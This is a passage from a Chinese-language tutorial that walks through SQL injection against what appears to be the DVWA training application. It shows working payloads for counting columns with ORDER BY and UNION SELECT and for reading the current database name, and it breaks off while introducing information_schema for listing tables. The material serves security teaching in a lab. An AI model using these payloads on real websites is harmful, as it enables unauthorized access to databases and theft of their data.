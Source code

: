 返回了多个结果。说明存在字符注入。

#### 猜解SQL查询语句中的字段数

输入`1' or 1=1 order by 1 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/normal4.png)

输入`1' or 1=1 order by 2 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/normal5.png)

输入`1' or 1=1 order by 3 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/normal6.png)

这说明当前查询语句涉及的表中只有两个字段。

另外，也可以通过

```
1' or 1=1 union select 1 #
1' or 1=1 union select 1,2 #
1' or 1=1 union select 1,2,3 #
```

来猜测字段数。

#### 确定显示的字段顺序

其实我们上面的测试已经得到了结果。显示的先是`First name`，然后是`Surname`。如果网站开发者没有刻意将查询结果和动态语言显示的顺序打乱，那么可以猜测查询语句类似下面这样：

```
SELECT FirstName, Surname FROM xxx WHERE ID='$id';
```

#### 获取当前数据库名

我们已经知道了字段个数，所以一切变得简单许多。

输入`1' union select 1,database() #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/normal7.png)

可以看到，当前数据库名为`dvwa`。

#### 获取数据库中的表

**背景知识一**

`information_schema`是`MySQL`自带的数据库，用来访问数据库元数据。它和 Linux 上的`/proc`类似，是虚拟的数据库，实际并不存在，只是一些视图（`views`）。

```
mysql> use information_schema;
mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| ...                                   |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| USER_PRIVILEGES                       |
| VIEWS                                 |
| ...                                   |
+---------------------------------------+
40 rows in set (0.00 sec)
```